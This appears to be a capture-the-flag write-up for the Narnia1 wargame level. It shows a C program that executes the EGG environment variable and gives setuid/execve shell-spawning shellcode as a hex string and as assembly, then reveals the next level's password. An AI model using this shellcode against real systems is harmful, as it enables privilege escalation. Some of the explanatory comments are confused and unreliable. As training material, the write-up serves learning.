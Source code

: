 # Narnia1

```C
#include <stdio.h>

int main(){
  int (*ret)();

  if(getenv("EGG")==NULL){    
  	printf("Give me something to execute at the env-variable EGG\n");
  	exit(1);
  }

  printf("Trying to execute EGG!\n");
  ret = getenv("EGG");
  ret();

  return 0;
}
```
The C code here seems to use the  function `getenv()` to get the function pointer at the environmental variable `EGG`. (Also as a challenge what happens if we do not set EGG?)

So lets make an environmental variable. To do that do:

```
$ export EGG="dogs_are_cool"
$ echo $EGG
dogs_are_cool
```

Now we need to set as a function. However you can't make and compile a C program because to much overhead and can be complicated in referring the address of the C function. We need `SHELLCODE`. Shellcode is x86 assembly code that when compiled and given as input will spawn a shell for our use.

So lets create a simple shellcode program `shellcode.s`. Need `.s` extension so `nasm` compiles it as a lightweight machine code instead of an executable.

```
SHELLCODE ASSEMBLY DOES NOT WORK AT THE MOMENT and still needs testing
```

Instead use the precompiled shellcode: `"\x31\xdb\x8d\x43\x17\x99\xcd\x80\x31\xc9\x51\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x8d\x41\x0b\x89\xe3\xcd\x80"`

Was gotten from the [exploit db](https://www.exploit-db.com/exploits/13333/)

We also got this  assembly but it does not work.
```assembly
global _start
section .text
_start:
;setuid(0)
xor ebx,ebx
lea eax,[ebx+0x17]
cdq
int 0x80
;execve("/bin/sh",0,0)
xor ecx,ecx
push ecx
push 0x68732f6e
push 0x69622f2f
lea eax,[ecx+0x0B]
mov ebx,esp
int 0x80
```

To get it into EGG use python command line and put $() around it.

```
THIS ASSEMLBY WORKS
```
When you run this it works. It requires some tweaking from the previous assembly:
```assembly
BITS 64 ; need this so that nasm can put it as a flat form binary but default is 32 so need to specify 64 bits (for the r registers)

global _start ; this
section .text ;  and this are both labels to set up the code portion of the code
_start: ; start here label
;setuid(0) this is to escalate priviledges in the environment
xor ebx,ebx        ; zero out ebx (the first argument) to be 0
lea eax,[rbx+0x17] ; move the value 23 as dword
cdq                ; since the rbx is bigger than eax need to extend Convert Double  word into Quadword
int 0x80           ; syscall (for MIPS people)

;execve("/bin/sh",0,0)
xor ecx,ecx        ; the 2nd argument (ecx) is zero
push rcx           ; idk why rcx just needs dword
push 0x68732f6e    ; the hex value of 'n/sh' is now on stack
push 0x69622f2f    ; the hex value of '//bi' is now on stack
lea eax,[rcx+0x0B] ; execute syscall 0xb or 11
mov ebx,esp        ; have the 1st argument be what is on the stack
int 0x80           ; syscall
or bh, bh          ; idk what this does
```

Okay so with assembly the lets say the we want to execute `funct1("hello", 0)`. The value for eax is the number in the unistd.h file to execute the system call `funct1`. ebx would need to have the value "hello" but since it is not zero it has to have the structor of a reach register (ones that start with r) instead of an extended register (one that starts with e). Now since the 2nd argument is zero we just need ecx to be zero as well.

Ok to compile use:
```
$ nasm shellcode.s
$ wc -c shellcode
30 <-- good that it is around 30 use premade shellcode to compare with hexdump
```

Now export the value in `shellcode` into EGG and run the program. You should get a shell, that has access to narnia2 password.

Password: `nairiepecu`

